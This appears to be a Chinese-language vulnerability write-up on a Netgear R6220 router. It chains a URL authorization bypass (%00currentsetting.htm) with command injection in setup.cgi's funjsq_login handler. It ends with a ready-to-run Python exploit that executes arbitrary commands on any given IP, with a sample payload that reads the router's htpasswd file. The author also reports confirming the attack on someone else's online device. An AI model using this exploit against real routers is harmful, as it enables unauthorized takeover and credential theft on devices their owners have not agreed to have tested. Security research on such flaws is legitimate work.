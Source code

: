 # netgearR6220

发现netgearR6200中，存在一个未授权，但是光未授权，太鸡肋了。想找一个命令执行，结合来使用，于是就有了这篇文章。
这里未授权的exp很简单，
```
http://83.251.186.152/index.htm%00currentsetting.htm
```
就是在url中添加%00currentsetting.htm可以绕过授权检查。这里的原理我在另一篇文章https://github.com/theRaz0r/Iot-vulnerability/blob/main/Netgear/DGN1000_unauthorized_comamnd_injection/DGN1000_unauthorized_comamnd_injection.md已经有过详细分析。


---



程序的逻辑为url传递到8080端口由mini_httpd来执行程序，最后当我们的url中含有setup.cgi的时候，程序会去调用另一个程序setup.cgi ，参数是以环境变量的形式传递的。


首先简单分析下，setup.cgi   ，当url中todo为debug时，程序会调用函数sub_41110C，而此函数会启动telnetd服务，支持远程telnet
![](vx_images/307901560123361.png)



![](vx_images/300324696890155.png)


我们简单构造先试一试

![](vx_images/233113499350404.png)

发现回显未授权Unauthorized。
经过字符串搜索发现，Unauthorized的处理逻辑应该全在mini_httpd中，只有通过授权，才会调用到setup.cgi

我们结合利用%00currentsetting.htm试试，
![](vx_images/29923153184967.png)


发现并无回显，怎么回事呢，我们来分析下debug调用的函数
![](vx_images/433865906404515.png)
发现url中要不含有htm,html,next_file,this_file这四个字符串，才能正常执行。含有的话，就直接return 0了。但是我们这里要利用未授权的话，是必须要含有%00currentsetting.htm，也就是肯定有htm的。
所以我们换一个函数，验证下，是否是我们推断的原因。

![](vx_images/444845099542711.png)
程序中，这一段函数都是todo参数，通过解析字符串来调用的功能，我们可以在其中找一个试试。

我选择了ppp_debug来实验

![](vx_images/492063615981066.png)
![](vx_images/290944601981045.png)

果然 ，现在程序有回显了
![](vx_images/218626207317762.png)

显示 403 Forbidden。搜索了下字符串
在setup.cgi中发现了send_forbidden
![](vx_images/121286479915841.png)


那么走到这里至少说明我们的程序是确实是通过未授权，启动了setup.cgi，成功将参数传递了进来

接下来，我们在todo对应解析的函数中，寻找是否有命令注入。



iserver_allow_ctrl在这里发现一个注入点
![](vx_images/99473876619293.png)

虽然他这里过滤了，但是我研究了一下应该是能绕过的。
![](vx_images/73257517309708.png)

尝试构造了一下exp,但是无回显。
![](vx_images/282887092974915.png)

我们先模拟一下，setup.cgi 试试 ，看命令COMMAND("/bin/echo %s >> /tmp/itunes/apple.remote", v8);是否真的执行了。


---

用户模拟setup.cgi

![](vx_images/317126854852105.png)

根据提示，添加环境变量REQUEST_METHOD



![](vx_images/282856370639838.png)




---


## 命令执行

![](vx_images/581632855402960.png)
![](vx_images/402743549525060.png)
发现todo=funjsq_login会调用sub_406790函数，而其中的funjsq_access_token会造成命令执行。

动态调试一下
![](vx_images/50594073009872.png)

![](vx_images/464842752139221.png)
执行command的时候，查看下s0寄存器的值。
![](vx_images/202371524866445.png)
发现我们的值，已经进来了。
他这里会执行
COMMAND("/tmp/funjsq/bin/funjsq.sh login 123465789|ls>1")

---
# 在线测试
因为模拟不起来，找一台在线机器测试一下

![](vx_images/363397894279190.png)

这里成功收到了信号
![](vx_images/474649059353417.png)

成功完成未授权RCE。

---


exp.py

```
import requests
import sys

# Define the function to perform the attack

def attack(target_ip, cmd):
    try:
        # 构造攻击的URL
        burp0_url = f"http://{target_ip}:8080/setup.cgi?todo=funjsq_login&funjsq_access_token=12345|{cmd}&test=11%00currentsetting.htm"
        burp0_headers = {
            "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
            "Accept": "*/*",
            "Accept-Language": "en-US,en;q=0.5",
            "Accept-Encoding": "gzip, deflate, br",
            "X-Requested-With": "XMLHttpRequest",
            "Connection": "close",
           
        }

        # 发送带有头部信息的GET请求到目标URL，并设置超时时间为5秒
        response = requests.get(burp0_url, headers=burp0_headers, timeout=5)

        # 检查响应状态码是否为200（OK）
        if response.status_code == 200:
            print("Response content:")
            print(response.text)
        else:
            print("Request failed with status code:", response.status_code)
    except requests.exceptions.Timeout:
        print("Request timed out after 5 seconds.")
    except Exception as e:
        print(f"Error: {e}")

# 使用示例
# attack('192.168.1.1', 'ls -la')

# Check if the script is run directly (not imported as a module)
if __name__ == "__main__":
    # Check if the correct number of command line arguments is provided
    if len(sys.argv) != 3:
        print("Usage: python exp.py target_ip \"command\"")
        sys.exit(1)

    # Read the target IP and command from command line arguments
    host = sys.argv[1]  # The target IP address, for example "151.71.83.247"
    payload = sys.argv[2]  # The command to execute, for example "cat%20/tmp/etc/htpasswd"

    print(f"Target: {host}")
    print(f"Payload: {payload}")
    
    # Call the attack function with the provided arguments
    attack(host, payload)
```





